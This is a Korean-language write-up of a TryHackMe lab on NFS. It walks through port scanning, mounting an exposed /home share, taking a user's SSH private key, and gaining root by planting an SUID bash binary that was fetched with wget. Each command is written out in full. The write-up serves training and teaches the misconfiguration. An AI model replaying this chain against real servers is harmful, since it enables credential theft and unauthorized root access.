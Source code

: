 # TryHackMe - Network Services 2 (NFS)

> 본 실습은 TryHackMe 플랫폼의 Network Services 2 실습 중 NFS(Network File System)를 대상으로 하여 정보 수집, 취약점 분석, SSH 접근, 권한 상승 과정을 수행한 결과입니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.155.201`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `showmount`: NFS 공유 디렉토리 확인
  - `mount`: NFS 공유 디렉토리 마운트
  - `chmod`: 파일 권한 설정
  - `wget`: bash 바이너리 다운로드
  - `ssh`: 시스템 로그인 및 루트 권한 획득

---

## 2. 정보 수집

### 2.1 nmap 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.155.201 -oN nmap_scan.txt
```

- 결과 요약:

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | ssh | SSH 서비스 (OpenSSH 7.6p1) |
| 111/tcp | rpcbind | RPC 서비스 |
| 2049/tcp | nfs_acl | NFS 파일 공유 서비스 |
| 34721/tcp, 48035/tcp, 57911/tcp | mountd | NFS 마운트 관련 데몬 |
| 32923/tcp | nlockmgr | 파일 잠금 서비스 |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

![nmap 포트 스캔 grep 결과](./screenshots/nmap_scan_grep.png)

---

## 3. 실습 과정

### 3.1 showmount를 통한 공유 디렉토리 확인

- 설명: NFS 서비스가 어떤 디렉토리를 외부에 공유하고 있는지 확인하기 위해 사용했습니다.
```bash 
showmount -e 10.10.155.201
```

![NFS 공유 디렉토리 확인](./screenshots/showmount_exports.png)

---

### 3.2 NFS 공유 디렉토리 마운트

- 설명: NFS 공유 디렉토리를 로컬 시스템의 /tmp/mount 경로에 마운트하여 내부 파일을 열람할 수 있도록 했습니다. -nolock은 잠금 기능을 비활성화하여 호환성을 높입니다.
```bash
mkdir /tmp/mount
mount -t nfs 10.10.155.201:/home /tmp/mount -nolock
```

![NFS 디렉토리 마운트](./screenshots/mount_shared_directory.png)

---

### 3.3 NFS 공유 디렉토리에서 SSH 개인 키 획득

- 공유 디렉토리 내 `/home/cappucino/.ssh/id_rsa` 발견

- 개인 키 내용: [id_rsa.txt](./id_rsa.txt) 파일 참조

![SSH 개인 키 파일 발견](./screenshots/found_ssh_key.png)

---

### 3.4 SSH 접속

- 설명: 마운트된 NFS 디렉토리에서 획득한 개인 키(id_rsa)를 이용해 타깃 머신에 SSH로 접속하였습니다. chmod 600은 키 파일 권한을 설정해 SSH 클라이언트에서 거부되지 않도록 합니다.
```bash
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.155.201
```

![SSH 로그인 성공](./screenshots/ssh_login_success.png)

---

### 3.5 Kali 터미널에서 루트 쉘을 위한 바이너리 준비

- 설명: 타겟 머신과 동일한 환경에서 동작하는 bash 바이너리를 다운로드하여 업로드할 준비를 했습니다. 이후 SUID 권한을 부여하여 루트 쉘을 획득하기 위한 전처리 단계입니다.
```bash
wget https://raw.githubusercontent.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

![bash 바이너리 다운로드](./screenshots/download_bash_binary.png)

---

### 3.6 공유 디렉토리에 bash 복사 후 SUID 권한 부여

- 설명: 공유된 디렉토리에 bash 파일을 복사한 뒤, chmod +x로 실행 권한을 준 후, chmod +s로 SUID 비트를 설정하여 해당 파일을 실행할 때 소유자(root)의 권한으로 실행되도록 구성했습니다.
```bash
cp bash /tmp/mount/bash
cd /tmp/mount
chmod +s bash
chmod +x bash
```

![SUID bash 설정](./screenshots/set_suid_bash.png)

---

### 3.7 SSH 쉘에서 bash 실행 → 루트 권한 획득

- 설명: SUID가 설정된 bash 바이너리를 실행하면서 -p 옵션을 주어 현재 파일 소유자의 권한(root)으로 쉘을 실행했습니다. 이를 통해 루트 권한 획득에 성공했습니다.
```bash
cd /home
./bash -p
```

- 획득한 플래그: THM{nfs_got_pwned}

![bash 실행 및 루트 획득](./screenshots/execute_suid_bash.png)

---

## 4. 배운 점

- NFS 서비스는 잘못 설정될 경우, 외부 사용자에게 심각한 권한을 부여할 수 있다.
- `root_squash` 설정이 비활성화된 경우, 업로드한 파일에 root 권한을 부여할 수 있다.
- NFS 공유된 디렉토리 접근을 통해 `ssh` 키를 획득 후 타겟 사용자로 로그인할 수 있다.
- SUID 비트가 설정된 bash 파일을 실행하여 root 권한 획득이 가능하다.



